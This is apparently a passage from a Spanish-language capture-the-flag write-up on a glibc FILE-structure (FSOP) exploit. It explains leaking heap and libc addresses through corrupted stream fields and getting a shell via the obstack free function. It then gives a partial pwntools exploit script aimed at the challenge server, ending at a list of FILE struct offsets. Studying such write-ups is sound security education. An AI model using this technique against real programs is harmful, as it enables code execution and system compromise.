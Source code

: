 *_IO_file_doallocate* > *_IO_buf_base* => call *_IO_new_file_sync* => *_IO_do_flush* con los argumentos. 

Para esto debemos setear correctamente los argumentos: *_fileno* debe ser 1 (stdout),*_IO_write_base* and *_IO_read_end* tienen la dirección base desde donde lekear, *_IO_write_ptr* indica el final del buffer. Controlando esto podemos obtener una dirección de heap y luego de libc (hay que hacerlo dos veces modificando los parámetros acorde)
Luego podemos obtener una shell usando el siguiente FSOP
 
*_IO_obstack_overflow* => *CALL_FREEFUN*.

Los requerimientos del struct *obstack* deben cumplirse para que el punter *fp* llamé correctamente a *CALL_FREEFUN*
Con esto obtenemos una shell, aca el exploit con más detalle.

```python
#!/usr/bin/python3
from pwn import *
# # break in fflush if needed to inspect the file stream
gs = '''
continue
'''
elf = context.binary = ELF('./chall')
context.terminal = ['tmux', 'splitw', '-hp', '70']
libc = elf.libc
def start():
    if args.GDB:
        return gdb.debug('./chall', gdbscript=gs)
    if args.REMOTE:
        return remote('146.190.77.77', 1337)
    else:
        return process('./chall')
r = start()
#r.timeout = 1
def flush():
    r.sendline(b"1")
    #r.recvuntil(b">")
def trick(offset, value):
    r.sendline(b"2")
# sleep(1)
    r.sendlineafter(b"Mana:", str(offset).encode())
    r.sendlineafter(b"Spell:", str(value))
    r.recvuntil(b">")
def write_addr(offset, addr):
    addr = p64(addr)
    for i in range(8):
        trick(offset+i, addr[i])
#========= exploit here ===================
# Setting the offsets for the filestream
_flags =0x0
_IO_read_ptr = 8
_IO_read_end = 0x10
_IO_read_base = 0x18
_IO_write_base = 0x20
_IO_write_ptr = 0x28
_IO_write_end = 0x30
_IO_buf_base = 0x38
_IO_buf_end = 0x40
_IO_save_base = 0x48
_IO_backup_base = 0x50
_IO_save_end = 0x58
_markers = 0x60
_chain = 0x68
_fileno = 0x70
_mode=0xc0
_vtable = 0xd8
```
